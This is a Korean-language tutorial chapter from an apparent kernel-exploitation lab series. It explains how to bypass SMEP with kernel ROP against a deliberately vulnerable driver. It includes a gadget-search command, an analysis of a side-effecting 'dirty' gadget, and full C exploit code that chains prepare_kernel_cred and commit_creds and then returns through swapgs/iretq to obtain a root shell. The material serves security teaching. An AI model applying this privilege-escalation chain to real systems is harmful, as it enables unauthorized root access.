


# 3-3. SMEP 우회하기 : KROP(Kernel-ROP)

SMEP에 의해 커널이 사용자 영역의 코드를 실행할 수는 없게 되었습니다. 그러면 이것을 어떻게 우회해야 할까요?

답은 간단합니다. **커널 영역 내부에 이미 존재하는 정상적인 코드 조각(가젯)들만 모아서 조립하는 것입니다!** 이것을 <b>KROP(Kernel-ROP)</b>이라 부릅니다. 사용자 영역에서의 ROP처럼, 공격 대상이 거대한 바이너리인 `vmlinux`일 뿐 원리는 사용자 영역 시스템 해킹과 똑같습니다.

`vmlinux`도 리눅스 실행파일이므로, 이 파일에서 가젯을 찾아서 커널 스택 버퍼에 바르게 쌓아 주시면 됩니다! 실행 방법은 사용자 영역에서 하던 것과 같습니다!

단, `vmlinux`는 **크기가 수백 메가바이트에 달하므로** Python 기반의 `ROPgadget`을 사용하면 가젯 검색에 시간이 너무 오래 걸릴 수 있습니다. 저는 C언어 기반의 [rp++](https://github.com/0vercl0k/rp/releases) 가젯 탐색기를 사용하시는 것을 추천합니다.

실습 환경에 `vmlinux`와 다운로드한 `rp-lin`을 두고, 터미널에서 아래 명령어를 실행해서 가젯 목록을 `gadgets.txt` 파일에 저장해주세요.(최대 5개의 명령어로 이루어진 가젯을 찾습니다.)

```bash
`./rp-lin --file vmlinux --rop 5 > gadgets.txt`
```

이 파일에는 안에는 사용할 수 있는 가젯들이 무려 수십만 개나 들어있습니다. 커널 내 함수들과 가젯의 주소가 주어졌으니, 이제 `commit_creds(prepare_kernel_cred(&init_task))` 를 실행하기 위해 필요한 가젯들을 찾아볼까요?

1. `pop rdi; ret;` : 함수 호출 규약에 의해 `prepare_kernel_cred` 함수의 첫 번째 인자(rdi)로 `&init_task`의 주소를 전달하기 위해 필요합니다.
2. `mov rdi, rax` (또는 비슷한 것) : `prepare_kernel_cred(&init_task)`의 반환값은 rax 레지스터에 보관되므로, 이것을 `commit_creds`의 첫 번째 인자로 옮겨 주기 위해 필요합니다.
3. 작업 종료 이후 `swapgs; ret;` 과 `iretq`가 필요합니다. 이것은 2장에서 이미 설명했으니 여기서는 설명을 생략하겠습니다.

이제 이 가젯들을 모아서, 유저 영역에서 ROP를 하듯 커널 스택에 ROP 체인을 설치하면 root 권한의 셸을 획득할 수 있습니다! 정말 쉽죠?

**...하지만 커널 바이너리에서 필요한 코드 조각을 찾는 것이 그렇게 만만하지 않습니다.**

> **경고 : 가젯은 커널 버전마다 다르며, 필요한 가젯을 찾지 못 할 수도 있습니다.**
>
> 실습에 사용하는 `vmlinux`의 커널 버전이나 컴파일러의 최적화 옵션에 따라 추출되는 가젯의 종류는 천차만별입니다.
>
> 불행히도, 최신 Linux 7.x 버전에서는 보안 패치나 컴파일러(GCC/Clang)의 최적화 발전 등으로 인해 해커들이 사용하기 좋은 가젯들이 점차 사라지고 있습니다.
>
> **따라서, 여러분의 환경에 맞는 완벽한 가젯이 없을 확률이 높습니다.**
>
> 이럴 때 진짜 해커들은 포기하지 않고 <b>'지저분한 가젯(Dirty Gadget)'</b>을 사용합니다. 제가 Linux 7.1.4 버전에서 찾은 가젯들을 살펴봅시다.
> - 0xffffffff812a8cec : `pop rdi; ret` (이건 다행히 많이 있습니다.)
> - 0xffffffff81e39b57 : `xchg rax, rdi ; dec  [rax+0x39] ; ret ;` (지저분한 가젯)
>
> 지저분한 가젯이란, 가젯들 중에서도 제 기능과 함께 부작용이 같이 존재하는 코드 조각을 말합니다. 여기서 두 번째 가젯의 동작을 살펴볼까요?
>
> 우리가 원하는 것은 rax 레지스터의 값(root 권한의 cred 포인터)을 rdi에 옮기는 것입니다. `xchg rax, rdi` (두 레지스터의 값을 교체한다) 명령어가 있으니 일단 성공했습니다. **문제는 그 다음에 나오는 명령어인 `dec [rax+0x39]`는 부작용을 갖습니다.**
> 1. `prepare_kernel_cred(&init_task)` 실행 직후: rax에는 새 cred 구조체 주소가, rdi에는 알 수 없는 쓰레기 값이 들어있습니다.
> 2. `xchg` 실행: 드디어 rdi에 신분증 주소가 들어갔습니다! (목표 달성) 대신 rax에는 아까 rdi에 있던 쓰레기 값이 들어갑니다.
> 3. `dec [rax+0x39]` 실행: 커널이 rax(쓰레기 값) + 0x39 주소의 메모리 값을 1 감소(dec)시킵니다!
>
> 만약 여기서 **rax에 들어있던 쓰레기 값이 쓰기 불가능한 주소이거나, 정의되지 않은 잘못된 주소라면** 어떻게 될까요? 커널은 메모리 참조 오류(Page Fault)를 발생시키고 즉시 죽어버립니다!
>
> 따라서 이 지저분한 가젯이 성공하려면, `prepare_kernel_cred(&init_task)`가 끝난 직후 **rdi 레지스터에 "우연히도 커널이 쓰기(Write) 가능한 정상적인 메모리 주소"가 남아있어야만 합니다.**
>> 💡 TMI (실습 환경의 행운):
>>
>> 다행히 이번 실습에 사용된 커널 환경(버전, 컴파일러 등)에서는 `prepare_kernel_cred(&init_task)`가 종료된 직후 **우연히 rax와 rdi에 똑같은 신분증 주소값이 들어있는 행운이 발생합니다.**(사실상 xchg 가젯을 안 써도 되는 상황이었습니다.)
>>
>> 하지만 커널 마이너 버전이 0.1만 바뀌어도 이 레지스터 상태는 언제든 틀어질 수 있습니다.
>
> 진짜 해커는 운에 기대지 않습니다. 자신이 설사 부작용이 있는 가젯을 사용해야 한다 해도, 이것이 메모리 상에 어떤 영향을 미치는지 면밀히 분석하고, 그 논리적인 확신 하에 과감하게 도전합니다.
>
> 상황에 딱 맞는 가젯이 없더라도 포기하지 마십시오. 주어진 환경에서 부작용을 통제하며 최선의 우회로를 조립해 내는 응용력이야말로 해커가 갖춰야 할 최고의 덕목입니다. 자, 이제 이 가젯들을 모아 실제 KROP 코드를 작성해 봅시다!

## 익스플로잇 코드 완성하기

익스플로잇 코드의 전체적인 구조는 2-4에서 다루었던 내용과 같습니다. 다만 이번에는 `vuln.ko`에 `win_function`이 없으니, 커널 스택에 순수 커널 가젯들로 이루어진 KROP 체인을 배치했습니다.

실습 환경에 이 코드를 미리 컴파일해 둔 exploit 바이너리가 준비되어 있습니다. 전체 코드를 살펴봅시다.

```c
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>
#define NUM 88 // 64(버퍼) + 24(백업된 레지스터)

/* 권한을 상승시킨 후에는 이 영역으로 돌아와서 셸을 획득합니다. */
void win_shell(void) {
    printf("[*] YES!!!!! I GOT A ROOT SHELL!!!!!\n");
    execl("/bin/sh", "sh", NULL);
}

int main() {

    int fd = open("/dev/vuln", O_RDWR);
    if (fd < 0) {
        perror("[-] Failed to open /dev/vuln");
        return -1;
    }

    char payload[300] = { 0 };
    memset(payload, 'A', NUM); // 쓰레기 값으로 오프셋 채우기

    /* KROP을 수행하기 위해 찾아둔 커널 함수들과 가젯들의 고정 주소 */
    unsigned long prepare_kernel_cred_addr = 0xffffffff812ca190;
    unsigned long commit_creds_addr = 0xffffffff812c9ee0;
    unsigned long init_task_addr = 0xffffffff82c0ca00;
    unsigned long pop_rdi = 0xffffffff812a8cec; // pop rdi; ret;
    unsigned long xchg = 0xffffffff81e39b57; // xchg rax, rdi ; dec  [rax+0x39] ; ret ;
    unsigned long swapgs = 0xffffffff810017c0 + 0x98; // paranoid_entry + 0x98 (swapgs; ret;)
    unsigned long iretq = 0xffffffff81000080 + 0x164a; // entry_SYSCALL_64 + 0x164a (iretq)

    /* KROP 체인을 구성합니다. */
    memcpy(payload + NUM, &pop_rdi, 8); // 1. pop rdi; 실행
    memcpy(payload + NUM + 8, &init_task_addr, 8); // 2. rdi에 &init_task 값 팝(pop)
    memcpy(payload + NUM + 16, &prepare_kernel_cred_addr, 8); // 3. prepare_kernel_cred(&init_task) 실행
    memcpy(payload + NUM + 24, &xchg, 8); // 4. xchg rax, rdi; 실행 (신분증 주소를 rdi로)
    memcpy(payload + NUM + 32, &commit_creds_addr, 8); // 5. commit_creds(새 신분증) 실행
    memcpy(payload + NUM + 40, &swapgs, 8); // 6. swapgs; ret; (유저 스택/데이터로 교체)
    memcpy(payload + NUM + 48, &iretq, 8); // 7. iretq; (트랩 프레임 읽고 탈출)

    /* iretq를 위한 가짜 트랩 프레임(5개) 세팅 */
    unsigned long iretq_stack[5] = {0};
    unsigned long fake_stack[2048] = {0}; // 넉넉한 가짜 스택 공간
    iretq_stack[0] = (unsigned long)&win_shell; // RIP
    iretq_stack[1] = 0x33; // CS
    iretq_stack[2] = 0x202; // RFLAGS
    iretq_stack[3] = (unsigned long)(fake_stack) + 2048; // RSP
    iretq_stack[4] = 0x2b; // SS

    memcpy(payload + NUM + 56, &iretq_stack, 40);
    
    printf("[+] Sending exploit payload...\n");

    // 커널 공격하기 (가젯 체인 56바이트 + 트랩 프레임 40바이트 = 총 96바이트)
    write(fd, payload, NUM + 96);

    close(fd);
    return 0;
}
```

아래 사진은 KROP가 실행되기 직전, 실습 환경에 디버거(GDB)를 붙여 커널 메모리 상태를 확인한 모습입니다. 커널 스택 공간에 우리가 제작한 KROP 체인이 잘 배치된 모습이 보이시나요?



이제 함수가 종료되면 이 KROP 체인들이 차례대로 실행되며 우리에게 root 셸을 선물할 것입니다. 실험 환경에 있는 `exploit`을 실행해 보세요.



**성공입니다!** SMEP이 적용된 환경에서도, 우리는 커널 영역의 코드만을 이어붙인 KROP 기법으로 이것을 멋지게 우회했습니다.

## 🏁 3장을 마치며 : 다양한 보호기법들이 기다리고 있습니다!

축하합니다! 여러분은 이제 커널의 보호 기법 중 하나인 SMEP을 완벽하게 무력화할 수 있게 되었습니다.

**하지만 방심하기에는 이릅니다.** 우리가 3장까지 사용했던 모든 익스플로잇 코드들을 다시 한 번 자세히 살펴보세요.

우리는 그동안 `prepare_kernel_cred`나 `swapgs` 등 필요한 함수 및 가젯 등 **커널 영역 요소들의 메모리 주소를 익스플로잇 코드에 하드코딩(고정값)하여 공격했습니다.** 실험의 편의성을 위해 이 주소들이 실험 환경을 재부팅해도 변하지 않도록 설계했고, `/tmp/kallsyms` 파일을 통해 커널 요소들의 실제 주소 정보를 제공했습니다.

**만약 컴퓨터를 껐다 켤 때마다 커널 함수들의 주소가 무작위로 교체된다면 어떻게 될까요?**

우리가 현재까지 사용한 익스플로잇 코드들을 더 이상 사용할 수 없게 됩니다. 과연 이 보호 기법은 무엇인지, 그리고 어떻게 무력화 하는 지는 4장에서 만나보겠습니다!